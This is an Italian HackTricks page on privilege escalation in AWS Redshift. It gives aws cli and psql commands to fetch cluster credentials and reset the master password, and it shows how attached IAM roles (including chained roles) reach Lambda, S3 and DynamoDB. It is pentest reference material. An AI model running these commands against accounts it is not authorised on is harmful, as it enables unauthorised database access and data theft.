 # AWS - Redshift Privesc

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}

## Redshift

Per maggiori informazioni su RDS controlla:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Con questi permessi puoi ottenere **info di tutti i cluster** (inclusi nome e username del cluster) e **ottenere credenziali** per accedervi:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei database.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Con questi permessi puoi ottenere **informazioni di tutti i cluster** e **ottenere credenziali** per accedervi.\
Nota che l'utente postgres avrà i **permessi che l'identità IAM** utilizzata per ottenere le credenziali possiede.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei database.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

È possibile **modificare la password master** dell'utente postgres interno (redshift) da aws cli (penso che queste siano le autorizzazioni necessarie ma non le ho ancora testate):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno dei database.

## Accesso ai Servizi Esterni

{% hint style="warning" %}
Per accedere a tutte le risorse seguenti, sarà necessario **specificare il ruolo da utilizzare**. Un cluster Redshift **può avere assegnato un elenco di ruoli AWS** che puoi utilizzare **se conosci l'ARN** oppure puoi semplicemente impostare "**default**" per utilizzare quello predefinito assegnato.

Inoltre, come [**spiegato qui**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift consente anche di concatenare ruoli (purché il primo possa assumere il secondo) per ottenere ulteriore accesso semplicemente **separandoli** con una **virgola**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Come spiegato in [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), è possibile **chiamare una funzione lambda da redshift** con qualcosa del genere:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Come spiegato in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), è possibile **leggere e scrivere nei bucket S3**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Come spiegato in [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), è possibile **ottenere dati da dynamodb**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
La tabella Amazon DynamoDB che fornisce i dati deve essere creata nella stessa Regione AWS del tuo cluster, a meno che non utilizzi l'opzione [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) per specificare la Regione AWS in cui si trova la tabella Amazon DynamoDB.
{% endhint %}

### EMR

Controlla [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## Riferimenti

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository github.

</details>
{% endhint %}
